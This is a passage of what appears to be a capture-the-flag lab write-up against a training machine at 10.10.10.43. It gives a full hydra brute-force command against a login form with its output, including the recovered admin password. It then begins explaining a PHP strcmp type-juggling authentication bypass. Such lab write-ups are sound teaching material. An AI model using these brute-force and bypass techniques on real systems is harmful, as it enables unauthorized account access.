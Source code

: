 ## Hydra

Let's see if we can brute force the two login forms.

We'll start with the login form at [http://10.10.10.43/department/login.php](http://10.10.10.43/department/login.php), and we'll use "hydra" to brute force it.

{% embed url="https://github.com/vanhauser-thc/thc-hydra" %}

We'll use the following command:

> hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^\&password=^PASS^:Invalid Password"

```
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-29 11:20:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9437 login tries (l:1/p:9437), ~590 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password
[STATUS] 3363.00 tries/min, 3363 tries in 00:01h, 6074 to do in 00:02h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-29 11:21:55
                                                                                   
```

It doesn't take long for "hydra" to find the password.

## PHP Type Juggling

An alternative menthod of gaining access to the site at [ttp://10.10.10.43/department/login.php](http://10.10.10.43/department/manage.php) is through a PHP type juggling vulnerability which can be used to bypass authentication.

Basically, when using "$\_GET" or "$\_POST" in a statement to gather input from a user, the data returned can be one of two types, a "string" or an "array".

If the developer uses the "strcmp" function to compare the value entered by the user with another string, such as a hard coded password, the result returned is "0" if there is a match, and something else if there isn't.

```
php > echo strcmp("test", "test");
0
php > echo strcmp("test", "test1");
-1
php > echo strcmp("test", "test2");
-1
php > 
```
